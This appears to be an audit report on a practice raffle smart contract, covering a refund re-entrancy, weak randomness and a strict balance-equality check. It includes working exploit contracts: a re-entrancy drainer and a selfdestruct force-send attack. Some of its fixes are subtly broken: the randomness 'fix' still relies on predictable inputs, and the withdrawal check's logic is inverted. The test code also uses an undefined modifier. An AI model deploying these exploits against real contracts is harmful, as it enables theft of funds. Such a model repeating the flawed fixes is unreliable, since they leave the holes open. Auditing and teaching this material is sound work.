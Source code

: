 ### S-1 Re-entrancy on refund

When `PuppyRaffle::refund` is called, eth is sent to player before the state accounting for the refund is updated. This allows for re-entrancy.

**Proof of Concept**

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
pragma experimental ABIEncoderV2;

import {Test, console} from "forge-std/Test.sol";
import {PuppyRaffle} from "../src/PuppyRaffle.sol";

contract PuppyRaffleTest is Test {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee = 1e18;
    address playerOne = address(1);
    address playerTwo = address(2);
    address playerThree = address(3);
    address playerFour = address(4);
    address feeAddress = address(99);
    uint256 duration = 1 days;

    function setUp() public {
        puppyRaffle = new PuppyRaffle(entranceFee, feeAddress, duration);
    }

    function test_srw_reentrancy_attack_can_pull_all_funds_via_refund()
        public
        playersEntered
    {
        ReentrancyAttack attack = new ReentrancyAttack(
            puppyRaffle,
            entranceFee
        );

        vm.deal(address(attack), entranceFee);

        attack.enterRaffle();
        assertEq(address(attack).balance, 0);

        attack.attack();

        assertEq(address(puppyRaffle).balance, 0);
        assertEq(address(attack).balance, entranceFee * 5);
    }
}

contract ReentrancyAttack {
    uint256 s_indexOfPlayer;
    PuppyRaffle s_puppyRaffle;
    uint256 s_entranceFee;
    uint256 s_reentrancy_count = 4;

    constructor(PuppyRaffle puppyRaffle, uint256 entranceFee) {
        s_puppyRaffle = puppyRaffle;
        s_entranceFee = entranceFee;
    }

    function enterRaffle() public {
        address[] memory players = new address[](1);
        players[0] = address(this);

        s_puppyRaffle.enterRaffle{value: s_entranceFee}(players);
        s_indexOfPlayer = s_puppyRaffle.getActivePlayerIndex(address(this));
    }

    function attack() public {
        s_puppyRaffle.refund(s_indexOfPlayer);
    }

    receive() external payable {
        if (s_reentrancy_count > 0) {
            s_reentrancy_count -= 1;
            s_puppyRaffle.refund(s_indexOfPlayer);
        }
    }
}
```

**Mitigation**

Zero-out the address for the player's index before the funds are sent.

```diff
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(
        playerAddress == msg.sender,
        "PuppyRaffle: Only the player can refund"
    );
    require(
        playerAddress != address(0),
        "PuppyRaffle: Player already refunded, or is not active"
    );

+   players[playerIndex] = address(0);
    payable(msg.sender).sendValue(entranceFee);

-   players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

### S-2 Weak RNG allows for miners to determine winner

Since RNG algorithm for `PuppyRaffle::selectWinner` relies on `block.timestamp`, a miner can quickly test the output of some transaction block orderings to attain a favourable result.


**Mitigation**

```diff
uint256 winnerIndex = uint256(
    keccak256(
-       abi.encodePacked(msg.sender, block.timestamp, block.difficulty)
+       abi.encodePacked(msg.sender, block.difficulty)
    )
) % players.length;
```

### S-3 Strict squality can disable withdrawing of fees

In `PuppyRaffle::withdrawFees`, the contract checks its balance against the totalFee count. If an attacking contract forcefully pushes funds to `PuppyRaffle`, then the contract enters a state where it is no longer possible to withdraw fees.

**Proof of Concept**

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
pragma experimental ABIEncoderV2;

import {Test, console} from "forge-std/Test.sol";
import {PuppyRaffle} from "../src/PuppyRaffle.sol";

contract PuppyRaffleTest is Test {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee = 1e18;
    address playerOne = address(1);
    address playerTwo = address(2);
    address playerThree = address(3);
    address playerFour = address(4);
    address feeAddress = address(99);
    uint256 duration = 1 days;

    function setUp() public {
        puppyRaffle = new PuppyRaffle(entranceFee, feeAddress, duration);
    }

    function test_srw_strict_equality_can_be_exploited_so_cant_withdraw_fees()
        public
        playersEntered
    {
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        puppyRaffle.selectWinner();

        SelfDestructAttack attack = new SelfDestructAttack(puppyRaffle);
        vm.deal(address(attack), 1 ether);
        attack.attack();

        vm.expectRevert();
        puppyRaffle.withdrawFees();
    }
}

contract SelfDestructAttack
{
    PuppyRaffle s_puppyRaffle;

    constructor(PuppyRaffle puppyRaffle) {
        s_puppyRaffle = puppyRaffle;
    }

    function attack() public {
        selfdestruct(payable(address(s_puppyRaffle)));
    }
}
```

**Mitigation**

Instead, check that the `players` object is empty.

```diff
function withdrawFees() external {
    // audit-info: not onlyOwner, so anyone can start a new raffle?
    require(
-       address(this).balance == uint256(totalFees),
+       players.length != 0,
        "PuppyRaffle: There are currently players active!"
    );
    uint256 feesToWithdraw = totalFees;
    ...
}
```